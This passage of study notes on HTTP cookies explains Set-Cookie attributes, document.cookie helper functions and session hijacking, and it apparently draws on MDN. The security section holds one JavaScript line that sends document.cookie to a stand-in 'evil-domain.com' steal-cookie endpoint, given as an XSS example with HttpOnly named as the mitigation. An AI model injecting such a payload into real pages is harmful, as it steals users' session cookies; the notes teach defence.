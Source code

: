      - the time and date set is relative to the client
     - `Max-Age` has precedence
   - security flags
     ```
     Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
     ```

     - `Secure`: HTTPS only
     - `HttpOnly`: cookies are inaccessible to JavaScript's `Document.cookie` API
   - `SameSite` experimental: a cookie shouldn't be sent with cross-site requests
     - `=Strict` -- prevent the cookie from being sent by the browser to the target site in all cross-site browsing context, even when following a regular link
     - `=Lax` -- only send cookies for TOP LEVEL navigation GET requests. This is sufficient for user tracking, but it will prevent many CSRF attacks
   - Scope of cookies
     - `Domain` -- allowed hosts to receive the cookie
       - If unspecified, it defaults to the host of the current document location, excluding subdomains
       - if specified, subdomains are always included
       - a domain that does not include the origin server should be rejected by the user agent
     - `Path` -- indicates a URL path that must exist in the requested URL in order to send the `Cookie` header
       - for example: `Path=/docs`
       - only absolute paths, no `..` or `.`

1. `Document.cookie: string` -- Read all cookies (URI encoded)
   - Write a new cookie -- `document.cookie = 'key=value'`
     - coordination: `encodeURIComponent()`
     - optional followed by attributes
     - `Date.toUTCString()` when setting `Expires`
   - simple framework -- [MDN](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie/Simple_document.cookie_framework)
   - get
     ```javascript
     function (sKey) {
         if (!sKey) { return null; }
         return decodeURIComponent(document.cookie.replace(new RegExp("(?:(?:^|.*;)\\s*" + encodeURIComponent(sKey).replace(/[\-\.\+\*]/g, "\\$&") + "\\s*\\=\\s*([^;]*).*$)|^.*$"), "$1")) || null;
     }
     ```

   - remove -- set `Expires` to past (`Thu, 01 Jan 1970 00:00:00 GMT`) or set `Max-Age` to non-positive
     ```javascript
     function (sKey, sPath, sDomain) {
         if (!this.hasItem(sKey)) { return false; }
         document.cookie = encodeURIComponent(sKey) + "=; expires=Thu, 01 Jan 1970 00:00:00 GMT" + (sDomain ? "; domain=" + sDomain : "") + (sPath ? "; path=" + sPath : "");
         return true;
     }
     ```

1. cookie security
   - Session hijacking and XSS
     - Cookies are often used in web application to identify a user and their authenticated session
     - stealing a cookie can lead to hijacking the authenticated user's session
     - The `HttpOnly` cookie attribute can help to mitigate this attack
     - exploiting an XSS vulnerability in the application
       ```javascript
       (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
       ```


   [p5]: ./images/5.png
   [p2]: ./images/2.png
   [p3]: ./images/3.png
